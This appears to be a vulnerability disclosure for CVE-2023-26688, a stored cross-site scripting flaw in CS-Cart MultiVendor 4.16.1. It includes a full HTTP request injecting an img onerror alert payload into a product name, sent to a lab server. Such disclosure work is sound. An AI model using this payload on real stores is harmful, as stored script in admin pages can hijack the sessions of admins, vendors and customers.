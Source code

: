 # CVE-2023-26688 - Cross Site Scripting (XSS) vulnerability in CS-Cart MultiVendor 4.16.1
Cross Site Scripting (XSS) vulnerability in CS-Cart MultiVendor 4.16.1 allows remote attackers to run arbitrary code via the product_data parameter of add/edit product in the administration interface.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of “CS-Cart MultiVendor 4.16.1” with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
An administrator may add/edit a product injecting JavaScript code in its name. For PoC we edited the product below(included in the demo data)

<img src="cs-cart-xss1.png">

```
POST /admin.php HTTP/1.1
Host: 172.16.85.150
Content-Length: 10157
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.85.150
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPkmuRh12RdczhZ00
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.85.150/admin.php?dispatch=products.update&product_id=12&selected_section=detailed
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_customer_179e8=bdc0f02d0f9664b4e9f38f9f00f42b50-C; sid_vendor_179e8=0f6a5cca23a94bc5e7aa1fd6ad344858-A; sid_admin_179e8=b5bd24184e18e9a95fc2380471d5b6cc-A
Connection: close

------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="fake"

1
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="selected_section"

detailed
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="product_id"

12
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="product_data[product]"

100g Pants<img src=x onerror=alert`ProductName`>
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="product_data[company_id]"

1
------WebKitFormBoundaryPkmuRh12RdczhZ00—
***TRUNCATED***
```

The code runs on multiple pages seen by other admins, vendors or other users.

<img src="cs-cart-xss2.png">

<img src="cs-cart-xss3.png">


